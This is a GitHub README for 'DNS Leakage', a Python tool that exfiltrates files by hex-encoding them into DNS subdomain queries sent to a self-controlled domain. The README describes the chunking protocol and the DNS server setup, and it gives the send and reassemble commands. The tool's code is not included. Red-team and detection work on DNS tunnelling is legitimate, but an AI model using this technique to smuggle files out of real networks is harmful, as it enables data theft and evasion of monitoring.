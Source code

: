 # DNS Leakage

DNS leak attack to leak a files over DNS queries

## Getting Started

In order to be able to capture the DNS requests you have to build your own DNS server.
### Prerequisites

Python 3
Build your own DNS server which support the following:
* Read subdoamin and determine what to do next:
** ```newfile``` is creating a new file that will include the following subdomain requests
** 2rd request is the file name
** 3rd request is the file size for validation
** 4rd request is the file signature for validation
* Write all DNS request (the full DNS address query) into a file

I used ChefDNS and edited the code to support the above

## How to use

### Send

To send a file execute the following:

```
python DNSLeakage_Send.py --file=SomeFile.doc --domain=*.MyDomain.com
```

The script will send (all in the subdoamin field):
* A newfile request (newfile.MyDomain.com)
* The file name (SomeFile.Doc.MyDomain.com)
* File size (1234.MyDomain.com)
* File signeture (Gs9x0w3adQLKkslAK63lsd.MyDomain.com)
* Hex the file and split it to n parts ```(n=sizeoffile/63 + sizeoffile%63/sizeoffile%63)``` and send each part in the subdoamin query

### Read

To read the file (which conatians all full DNS queries addresses) run the following command:

```
python DNSLeakage_Read.py --input=SomeFile.doc.hex --output=SomeFile.doc
```

The script will combine all the subdoamins attributes into the hexed file and decode it back to binary.
Afterwards the script will store the file (by output parameter).
The script will validate the original size and the signeture of the file to the decoded\leaked one and determine if its valid.

## Running the tests

POC folder contains a script which do the same as the above and it creates a new file as should be stored in the DNS server (file which contains the full DNS queries addresses)


## Built With

* Native Python3

## Authors

* **Yarden Yerushalmi** - https://www.linkedin.com/in/yarden-yerushalmi/)

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

## Acknowledgments

* [DNSchef](http://thesprawl.org/projects/dnschef/) - DNS server in python
